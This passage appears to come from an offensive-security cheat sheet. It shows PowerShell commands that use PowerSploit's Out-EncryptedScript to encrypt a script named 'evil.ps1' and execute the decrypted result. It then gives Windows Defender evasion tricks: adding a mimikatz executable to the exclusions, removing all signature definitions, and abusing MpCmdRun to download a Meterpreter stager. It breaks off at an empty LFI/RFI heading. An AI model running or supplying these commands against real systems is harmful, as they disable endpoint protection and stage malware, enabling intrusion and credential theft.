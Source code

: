 * [github.com/PowerShellMafia/PowerSploit/blob/master/ScriptModification/Out-EncryptedScript.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/ScriptModification/Out-EncryptedScript.ps1)
* [powersploit.readthedocs.io/en/latest/ScriptModification/Out-EncryptedScript/](https://powersploit.readthedocs.io/en/latest/ScriptModification/Out-EncryptedScript/)

Download:

```
$ curl -L https://github.com/PowerShellMafia/PowerSploit/blob/master/ScriptModification/Out-EncryptedScript.ps1 > outenc.ps1
```

Use:

```
PS > Out-EncryptedScript .\script.ps1 $(ConvertTo-SecureString 'Passw0rd!' -AsPlainText -Force) s4lt -FilePath .\evil.ps1
PS > [string] $cmd = gc .\evil
PS > $dec = de "Passw0rd!" s4lt
PS > Invoke-Expression $dec
```



### Tricks


#### Windows Defender

Add path to exclusions (must be elevated):

```
PS > $mimi = "C:\Users\snovvcrash\music\mimi\x64\mimikatz.exe"
PS > Add-MpPreference -ExclusionPath $mimi -AttackSurfaceReductionOnlyExclusions $mimi
```

Remove signatures (if Internet connection is present, it will be downloaded again):

```
PS > "C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\MpCmdRun.exe" -RemoveDefinitions -All
```

Download stager with triggering Defender to scan it:

```
PS > "C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\MpCmdRun.exe" -DownloadFile -Url http://127.0.0.1/met.exe -Path C:\Users\snovvcrash\music\met.exe
```




## LFI/RFI



### PHP RFI with SMB

`/etc/samba/smb.conf`:


[//]: # (# -- 5 spaces before)
[//]: # (## -- 4 spaces before)
[//]: # (### -- 3 spaces before)
[//]: # (#### -- 2 spaces before)
[//]: # (##### -- 1 space before)